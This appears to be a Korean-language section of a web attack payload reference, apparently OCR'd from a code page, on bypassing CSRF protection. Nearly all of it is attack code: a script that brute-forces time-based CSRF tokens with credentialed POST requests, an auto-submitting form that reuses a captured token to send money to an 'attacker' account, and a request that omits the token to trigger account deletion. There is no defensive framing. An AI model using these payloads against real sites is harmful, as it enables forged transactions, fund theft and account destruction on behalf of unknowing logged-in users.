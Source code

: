 
## 3. 특수 페이로드

### 3.1. CSRF 토큰 우회 기법

#### 3.1.1. 토큰 추측 및 브루트포스
```javascript
// 약한 토큰 생성 알고리즘 공격
function bruteForceToken() {
    var possibleTokens = [];
    
    // 시간 기반 토큰 추측
    var currentTime = Date.now();
    for (var i = -1000; i <= 1000; i++) {
        var timestamp = currentTime + i;
        var token = btoa(timestamp.toString()).substr(0, 16);
        possibleTokens.push(token);
    }
    
    // 각 토큰으로 요청 시도
    possibleTokens.forEach(function(token) {
        fetch('http://target.com/api/sensitive_action', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
                'X-CSRF-Token': token
            },
            body: JSON.stringify({action: 'malicious'}),
            credentials: 'include'
        });
    });
}
```

#### 3.1.2. 토큰 재사용 공격
```html
<!-- 동일 세션에서 토큰 재사용 -->
<form action="http://target.com/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="[이전에 획득한 유효한 토큰]">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="to_account" value="attacker">
</form>
<script>document.forms[0].submit();</script>
```

#### 3.1.3. 토큰 누락 시 기본값 처리 악용
```javascript
// 토큰이 없을 때 기본 처리 로직 악용
fetch('http://target.com/api/action', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
        // CSRF 토큰 헤더 의도적으로 생략
    },
    body: JSON.stringify({
        action: 'delete_account'
    }),
    credentials: 'include'
});
```
